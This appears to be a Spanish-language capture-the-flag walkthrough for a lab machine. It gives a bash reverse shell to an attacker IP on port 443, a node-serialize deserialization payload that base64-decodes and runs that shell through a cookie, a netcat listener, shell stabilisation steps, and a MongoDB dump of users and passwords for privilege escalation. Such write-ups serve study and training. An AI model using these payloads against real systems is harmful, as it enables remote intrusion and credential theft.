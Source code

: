 	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1 

❯ **cat data | base64 -w 0, echo** Despues el archivo llamado data lo encodeamos en la consola con base64 y nos saldra lo siguiente: 535ag1a35egrae35g1a3e5g1a35er Por lo que eso lo pegamos asi en el Burpsuite:

	var payload = {“rce”:“_$$ND_FUNC$$_function(){require(\’child_process\’).exec(\’echo 535ag1a35egrae35g1a3e5g1a35er | base64 -d | bash’, function(error, stdout, stderr){console.log(stdout)});}()”} 

El que se modifica es el exec ya que ahi se ponen los comando que queremos que se realicen. (d=decoder base64) 
Una vez encodeado en Url por el Burpsuite lo pegamos en la Cookie de Almacenamiento de la pagina web y antes de recargarla para que lo lea nos ponemos en escucha por el puerto 443


## User
❯ **nc -nlvp 443** Puerto de escucha para poder hacer la revershell en nuestra maquina de atacante
❯ **whoami** Miramos el nombre del usuario
❯ **hostname -I** Para ver la IP de la maquina (I=i mayuscula)

Una vez dentro de la consola, procedemos a hacer una pseudo consola, colocando los siguientes comandos. 
**Script /dev/null -c bash 
Ctrl + z
stty raw -echo; fg 
reset xterm**
**export TERM=xterm** Despues cambiamos esto para poder hacer **Ctrl+ l y Ctrl + c** (l=ele)

Ahora para modificar las dimensiones de nano debemos hacer lo siguiente. 
stty size Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano 

Despues de eso entramos a la maquina y podemos ir por la flag de User.txt. Pero antes le cambiamos los privilegios al directorio admin para poder entrar y leer la flag con 
❯ **chmod +x admin/**



## Root
Ahora queda hacer la escalada de privilegios para poder ser usuario root, 
❯ **netstat -nat** Podemos ver los puertos abiertos internos y nos mostra el 27017 (Mongo) el cual podemos 

❯ **mongo** Con ese comando nos podemos conectar a mongo 
Una vez dentro de mongo hacemos lo siguiente 	
	**>help** Para ver que comando podemos usar y vemos que podemos listar bases de datos 
	**>show dbs** Listamos las bases de datos y encotramos varias como (admin,blog...)
	**>use blog** Usamos la base de datos llamada blog 
	**>show collections** Mostramos contenido y encontramos users
	**>db.users.find()** Para listar el contenido y encontramos el usuario y password
	**>bye** Salimos de mongo

o en lugar de hacer lo de arriba podemos colocar el siguiente comando:
❯ **mongodump** Nos crea el directorio dump  
❯ **ls** Listamos el contenido creado
❯ **cd dump/** Nos vamos al directorio dump y ahi miramos toda la informacion 
❯ **cd blog/** Nos metemos al directorio blog y ahi miramos los archivos en formato bson 
❯ **bsondump users.bson** Miramos el usuario y password 
